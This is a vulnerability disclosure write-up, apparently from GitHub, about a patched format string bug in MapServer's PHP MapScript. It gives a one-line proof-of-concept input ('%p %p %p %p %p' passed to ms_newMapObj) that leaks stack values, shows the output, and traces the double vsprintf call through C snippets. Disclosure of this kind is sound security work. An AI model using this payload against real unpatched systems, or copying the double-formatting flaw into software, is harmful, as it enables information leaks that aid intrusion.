 >This is one of the reports that I sent privately to the MapServer Development Team in *Feb/28th/2020* The issues were patched: https://github.com/mapserver/mapserver/issues/6014

# Double-call to vsprintf() when printing PHP errors leading to a Format String attack

Double-call to ``vsprintf()`` when printing PHP errors leading to a Format String attack

## PoC
```
shaq@ubuntu:/tmp/phpfuzz$ php -r "ms_newmapobj('%p %p %p %p %p');"
```
will leak values from the stack.
output:
```
PHP Fatal error:  Uncaught exception 'MapScriptException' with message 
'Failed to open map file "0x1 0x100 0xb32785f4 0xbfa70a44 (nil)", or map file error.' in Command line code:1
Stack trace:
#0 Command line code(1): ms_newMapObj('%p %p %p %p %p')
#1 {main}
  thrown in Command line code on line 1
```
As can be seen above, the ``0x1 0x100 0xb32785f4 0xbfa70a44`` are the leaked values.

>Note: The example here is using PHP Command Line but I tested and it has the same behaviour in web application.

## Root cause
The issue is in ``mapscript_throw_mapserver_exception()``, this function takes a formatted string, passing it to ``vsprintf()`` and send the result as a parameter to ``mapscript_throw_exception()`` which **passes it to ``vsprintf()`` in the 2nd time**. And only then MapServer will print the error string.

The following steps demonstrates a practical exploitation of it from a PHP code perspective( using the PHP function ``ms_newMapObj()``:

1. An invalid value ("``%p %p %p %p %p``") is supplied to the ``ms_newMapObj()`` PHP function. The value we supplied is not valid, hence, it throws a PHP MapScript error using our vulnerable function:
   
(snippet from [mapserver/mapscript/php/php_mapscript.c](https://github.com/mapserver/mapserver/blob/368d71155fcddc7ba250cdad8821541f4d61619e/mapscript/php/php_mapscript.c))
```c
  if (map == NULL) {
    mapscript_throw_mapserver_exception("Failed to open map file \"%s\", or map file error." TSRMLS_CC,  filename);
    return;
  }
```
2. The ``mapscript_throw_mapserver_exception()`` function takes the formatted string, pass it to ``vsprintf()`` and then pass the result to ``mapscript_throw_exception()``

(snippet from [mapserver/mapscript/php/mapscript_error.c](https://github.com/mapserver/mapserver/blob/368d71155fcddc7ba250cdad8821541f4d61619e/mapscript/php/mapscript_error.c))

```c
  va_start(args, format);
  vsprintf(message, format, args);
  va_end(args);
  return mapscript_throw_exception(message TSRMLS_CC);
```

3. ``mapscript_throw_exception()`` calls ``vsprintf()`` **again**, which evaluates our malicious ``%p`` input and allow us to leak pointers from the stack. 
  
(snippet from [mapserver/mapscript/php/mapscript_error.c](https://github.com/mapserver/mapserver/blob/368d71155fcddc7ba250cdad8821541f4d61619e/mapscript/php/mapscript_error.c))
```c
#if  PHP_VERSION_ID >= 70000
zend_object* mapscript_throw_exception(char *format TSRMLS_DC, ...)
#else
zval* mapscript_throw_exception(char *format TSRMLS_DC, ...)
#endif
{
  va_list args;
  char message[MAX_EXCEPTION_MSG];
  va_start(args, format);
  vsprintf(message, format, args);
  va_end(args);
  return zend_throw_exception(mapscript_ce_mapscriptexception, message, 0 TSRMLS_CC);
}
```

4. profit :)

